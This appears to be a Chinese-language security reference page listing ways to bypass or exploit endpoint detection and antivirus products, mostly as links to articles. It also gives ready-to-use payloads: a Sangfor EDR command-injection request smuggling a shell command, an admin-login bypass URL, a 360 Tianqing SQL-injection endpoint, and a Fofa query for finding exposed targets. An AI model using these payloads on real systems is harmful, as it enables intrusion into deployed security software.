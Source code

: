 ## 终端响应与检测

**相关文章**
- [绕过集中管控类安全软件小技巧](https://www.t00ls.net/articles-58584.html)

### EDR/杀软

**利用杀毒软件删除任意文件**
- 相关文章
    - [Exploiting (Almost) Every Antivirus Software](https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/)
        - [利用杀毒软件删除任意文件](https://idiotc4t.com/defense-evasion/using-antivirus-to-delete-files)

**白名单信任文件**
- 相关文章
    - [通过信任文件绕过火绒](https://mp.weixin.qq.com/s/mw8Sql8VtGfNGQkFxptWnQ)

#### clamav

- [Re: [NSE] Unauthenticated ClamAV Command Exec](https://seclists.org/nmap-dev/2016/q2/201)

#### 深信服 EDR

**相关文章**
- [深信服DER RCE 复现](https://www.o2oxy.cn/3145.html)

**2020.08命令执行**
- 相关文章
    - [深信服终端检测响应平台 EDR 代码审计](https://www.sqlsec.com/2020/08/edr.html)
- POC | Payload | exp
    - [A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)

**2020.09命令执行**
- POC | Payload | exp
    ```
    POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9

    {"params":"w=123\"'1234123'\"|命令"}
    ```

**后台任意用户登陆**
- POC | Payload | exp
    ```
    xxx.xxx.xxx.xxx/ui/login.php?user=admin
    ```

#### 360天擎

> Fofa: title="360天擎"

**前台SQL注入**
- POC | Payload | exp
    ```
    /api/dp/rptsvcsyncpoint?ccid=1
    ```
